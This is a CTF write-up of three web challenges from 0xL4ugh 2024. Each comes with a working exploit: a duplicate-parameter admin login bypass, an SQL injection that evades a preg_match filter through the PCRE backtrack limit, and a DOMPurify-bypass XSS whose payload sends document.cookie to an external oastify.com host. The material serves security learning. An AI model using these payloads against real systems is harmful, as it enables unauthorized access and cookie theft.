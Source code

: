 ```yaml
---
layout: post
title:  "0xL4ugh CTF 2024"
---
```


Last weekend, I participated in the 0xL4ugh CTF as part of [ARESx](https://twitter.com/ARESxCTF). There were some infrastructure problems, but overall it was a fun CTF and we secured the 14th place.

Unfortunately there was only 1 pwn challenge so I tried myself at web challenges and managed to solve 3. This is a write up of them: [Micro](#micro-sec), [Simple WAF](#waf-sec) and [DamnPurify](#purify-sec).

The challenge files can be found in my [repo](https://github.com/Ollrogge/CtfWriteups).

<h2 id="micro-sec">Micro</h2>
Micro was a proxy kind of challenge were one had to login as admin into a Flask web page which had a php-based web page as proxy. The credentials for the admin account were given in the challenge description (admin:admin) so the goal was simply to login.

The problem of the challenge was that the php page denied all requests with `admin` as username:
```php
if(Check_Admin($username) && $_SERVER['REMOTE_ADDR']!=="127.0.0.1")
{
    die("Admin Login allowed from localhost only : )");
}
else
{
    send_to_api(file_get_contents("php://input"));
}
```
The `REMOTE_ADDR` is taken from the IP socket so it cant be spoofed and the admin check was a simple regex which also looked safe.

### Bug
Proxy kind of challenges often have something todo with the proxy and the web page functioning differently which allows us to bypass the protective measures.

For this challenge, a clear hint is that the code uses `file_get_contents("php://input")`, which reads the complete request body instead of taking the username and password from the `$_POST` array, to forward the request to the backend server.

The vulnerability is that when sending the same key twice in a POST request body, php will return the value of the second key via `$_POST['username']` and flask will return the value of the first key via `request.form.get('username')`.

### Exploit
To exploit this we can simply send a post request that contains the key `username` twice, with the first value being `admin` and second value being anything but admin.

```python
URL ="http://20.115.83.90:1338/"

def login():
    data = [('username', 'admin'), ('password', 'admin'),('login-submit', '1'),('username','test')]

    r = requests.post(URL, data=data)

    print(r.content)

login()
```

<h2 id="waf-sec">Simple WAF</h2>
For Simple WAF one had to simply login as a valid user to get the flag. Since the only user in the database was admin, this again meant one had to login as admin.

```php
$username=$_POST['username'];
$password=md5($_POST['password']);
if(waf($username))
{
    die("WAF Block");
}
else
{
    $res = $conn->query("select * from users where username='$username' and password='$password'");

    if($res->num_rows ===1)
    {
        echo "0xL4ugh{Fake_Flag}";
    }
    else
    {
        echo "<script>alert('Wrong Creds')</script>";
    }
}
```
There is a pretty obvious SQL injection vulnerability for the `username` parameter since we fully control its contents and the code directly uses it in a SQL query. The problem however is that the username is protected by a `waf` function which limits us to only lowercase letters in the username:


```php
function waf($input)
{
    if(preg_match("/([^a-z])+/s",$input))
    {
        return true;
    }
    else
    {
        return false;
    }
}
```
This prevents us from doing any SQL injection since we cant modify the statement.

### Bug
The bug for this challenge is a pretty big footgun in my opinion as it is not even mentioned in the documentation of the `preg_match` function. Only in the user contributed notes people mention a potential problem.

The behavior of the `preg_match` function is affected by [runtime configurations](https://www.php.net/manual/en/pcre.configuration.php#ini.pcre.backtrack-limit) such as the `pcre.backtrack_limit`. This limit sets the maximum number of backtracking steps that the regex library is allowed to make while attempting to match a regular expression. The default backtracking limit is `1000000`. If the regex matching backtracks more than this limit, `preg_match` will return `false` without throwing any kind of error.

### Exploit
We can exploit this behavior by simply appending a very long matching string before our SQL injection to pass the `waf` check:
```python
URL="http://20.115.83.90:1339/"

def login():
    print("A"*0x100000+"' OR '1'='1' -- -")

    data = {
        'username': "A"*0x100000+"' OR '1'='1' -- -" ,
        'password': 'admin',
        'login-submit': '1'
    }

    r = requests.post(URL, data=data)

    print(r.content)

login()
```


<h2 id="purify-sec">DamnPurify</h2>

DamnPurify was a challenge that used the [DOMPurify](https://github.com/cure53/DOMPurify) XSS sanitizer to try and prevent XSS. A very simple web page was given which takes the value passed via the xss URL parameter, sanitizes it via DOMPurify and then uses a regex on it which replaces `style` blocks with an empty string.

The goal of the challenge was to achieve XSS despite the sanitization and steal the cookie of the bot.

```html
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <script src="https://cure53.de/purify.js"></script>
  </head>
  <body>
<script>
    window.onload = () => {
        const params = new URLSearchParams(location.search);
        injection = params.get("xss");
        if (injection)
        {
            injection = DOMPurify.sanitize(injection);

            document.body.innerHTML = injection.replace(/<style>.*<\/style>/gs, "");
        }
    };
</script>
</html>
```

As DOMPurify is used extensively in practice, finding a bug directly in the library was unlikely the goal of the challenge. Therefore it had to have something to do with the regex used.

### Exploit
Nothing special really I just tried a lot of things until something worked. Final payload:

```txt
http://20.115.83.90:1337/report.php?url=http://127.0.0.1/?xss=<img src="a <style>"><style>h1 {color: white</style> " onerror=fetch("http://zdg7rcb3lqhtsuix9r6uopbk0b62uuij.oastify.com/".concat(document.cookie))</p>
```